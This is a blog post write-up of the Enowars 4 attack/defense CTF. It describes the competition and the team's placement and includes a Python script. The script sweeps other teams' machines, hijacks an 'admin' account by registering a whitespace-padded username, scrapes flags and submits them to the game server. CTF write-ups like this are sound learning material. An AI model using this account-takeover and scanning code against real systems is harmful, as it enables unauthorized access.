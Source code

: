 ```yaml
---
title: Enowars 4 CTF
author: Lim Kai Xian (AxiaMil)
date: 2020-07-19 00:00:00 +0800
categories: [CTF, Enowars-4]
tags: [ctf, tech, web]
toc: true
comments: true
excerpt: Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.
---
```



# What is Enowars Capture The Flag Competition

Enowars Capture The Flag competiton is by a CTF-Team & Workgroup for Computer Security located in TU Berlin. It is a 2 man Attack / Defense CTF played online where teams will have to attack and defend their vulnerable Machine by firstly identifying vulnerabilities in the machine. Teams will be awarded points base on the time their service is up and submitting flags to the server. After identifying the vulnerabilities, teams will need to patch their service in order for them to gain points as their service is up while preventing other teams from exploiting their services and getting the flag. Points are deducted when other teams get flag from your vulnerable machine.

![upload-image](/assets/img/blog/enowars-4-CTF/cover.png)

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.


# Our Experience

As this was my first time trying out an actual Attack / Defense CTF we spent some time finding out how it works. To add on, the timezone for the CTF was from 8pm to 5am hence we were not able to finish solving all the Challenges. Luckily, ColdSpot found a vulnerability on the service buggy and got the flag for it.

From there, we were able to write a script using python to get the flag automatically and submit to the flag collecter (enowars' server). This is our python script to solve the buggy challenge, It is in nowhere perfect as it took in other values other than the flag but submitting wrong flags wont penalize us so we did not really care much (It wasted time though).

```py
import requests
import re
import socket
import string
import signal
from contextlib import contextmanager

@contextmanager
def timeout(time):
    # Register a function to raise a TimeoutError on the signal.
    signal.signal(signal.SIGALRM, raise_timeout)
    # Schedule the signal to be sent after ``time``.
    signal.alarm(time)

    try:
        yield
    except TimeoutError:
        pass
    finally:
        # Unregister the signal so it won't be triggered
        # if the timeout is not reached.
        signal.signal(signal.SIGALRM, signal.SIG_IGN)


def raise_timeout(signum, frame):
    raise TimeoutError

def is_ascii(s):
    return all(ord(c) < 128 for c in s)

def get_flags():
    f = open("flag.txt", "r")
    known_flags = f.read().split('\n')
    ip_blacklist = [16,22,24,25,26,28,37,58,75,110,113,115,126,130,133,156,182,187,194]
    for i in range(1,198):
        if i in ip_blacklist:
            continue
        with timeout(10):
            try: 
                url = 'http://10.0.0.' + str(i) + ':7890/register'
                print(url)
                user_pass = {'username':'admin                                   ','pw':'lol'}
                s = requests.Session()
                s.post(url, data=user_pass)
                admin_url = 'http://10.0.0.' + str(i) + ':7890/user/admin'
                x = s.get(admin_url)
                result = re.findall("Status: (.*)</h3>", x.text)
                for u in result:
                    if string.printable not in u and u not in known_flags:
                        if u.strip() != '' and not is_ascii(u):
                            a.append(u)
            except:
                continue
    print('done')
while True:
    a = []

    get_flags()

    f_write = open("flag.txt", "a+")

    HOST = '10.0.13.37'
    PORT = 1337
    print(len(a))
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((HOST, PORT))
        while True:
            for i in a:
                s.sendall((i+'\n').encode('utf-8'))
                print(i+'\n')
                print(s.recv(1024))
                f_write.write(i + '\n')
            break
```

The enowars server will check if your service is up and put in flags every round which is about every 2 minutes or so. Therefore every 2 minutes there will be new flags for each team.

[Check their website here](https://enowars.com/)

# Placement

Before, we went to sleep we were placed at the 40th position and were also the 3rd for Singapore.

![upload-image](/assets/img/blog/enowars-4-CTF/score.png)

Waking up, we were suprised we have passed the team above us and have gotten the 39th position as the script was running overnight for us LOL.

# Overall

Overall, even though we did not place high for the competition it was a good introduction to Attack / Defense CTF in general. I'm sure we will be able to perfom much better in the next Attack / Defense CTF we attend

# Resources & Challenges

[Challenges/Vulnerable Services](https://github.com/enowars/enowars4-vulnbox-services)  
[Scoreboard used (Bambi Scoreboard)](https://github.com/enowars/bambi-scoreboard)  
[Infrastructure used (Bambi CTF Infrastructure)](https://github.com/enowars/bambictf)  